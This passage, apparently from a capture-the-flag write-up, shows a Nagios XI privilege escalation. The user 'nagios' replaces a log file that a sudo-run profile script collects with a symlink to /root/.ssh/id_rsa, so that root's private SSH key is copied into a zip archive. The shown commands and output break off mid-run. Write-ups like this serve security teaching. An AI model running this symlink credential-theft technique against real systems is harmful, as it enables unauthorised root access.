 

Almost all of these are in `/var/log`, where the nagios can't write.
Still, the last one is in the `/usr/local/nagiosxi` directory. The
section of code looks like:



    echo "Getting phpmailer.log..."
    if [ -f /usr/local/nagiosxi/tmp/phpmailer.log ]; then
        tail -100 /usr/local/nagiosxi/tmp/phpmailer.log > "/usr/local/nagiosxi/var/components/profile/$folder/phpmailer.log"
    fi



At the end, it puts all the collected files into a Zip archive:



    echo "Zipping logs directory..."

    ## temporarily change to that directory, zip, then leave
    (
        ts=$(date +%s)
        cd /usr/local/nagiosxi/var/components/profile
        mv "$folder" "profile-$ts"
        zip -r profile.zip "profile-$ts"
        rm -rf "profile-$ts"
        mv -f profile.zip ../
    )



#### Abusing Symlink

The `phpmailer.log` file is owned by nagios:



    nagios@monitored:~$ ls -l /usr/local/nagiosxi/tmp/phpmailer.log
    -rw-r--r-- 1 nagios nagios 0 Nov 10 15:14 /usr/local/nagiosxi/tmp/phpmailer.log



That means I can modify it. The existing it empty. I'll overwrite it
with a symlink:



    nagios@monitored:~$ ln -sf /root/.ssh/id_rsa /usr/local/nagiosxi/tmp/phpmailer.log
    nagios@monitored:~$ ls -l /usr/local/nagiosxi/tmp/phpmailer.log
    lrwxrwxrwx 1 nagios nagios 17 May  9 08:50 /usr/local/nagiosxi/tmp/phpmailer.log -> /root/.ssh/id_rsa



Now I run `getuserprofile.sh`:


    nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/components/getprofile.sh 0xdf
    mv: cannot stat '/usr/local/nagiosxi/tmp/profile-0xdf.md': No such file or directory
    -------------------Fetching Information-------------------
    Please wait.......
    Creating system information...
    Creating nagios.txt...
    Creating perfdata.txt...
    Creating npcd.txt...
    Creating cmdsubsys.txt...
    Creating event_handler.txt...
    Creating eventman.txt...
    Creating perfdataproc.txt...
    Creating sysstat.txt...
    Creating systemlog.txt...
    Retrieving all snmp logs...
    Creating apacheerrors.txt...
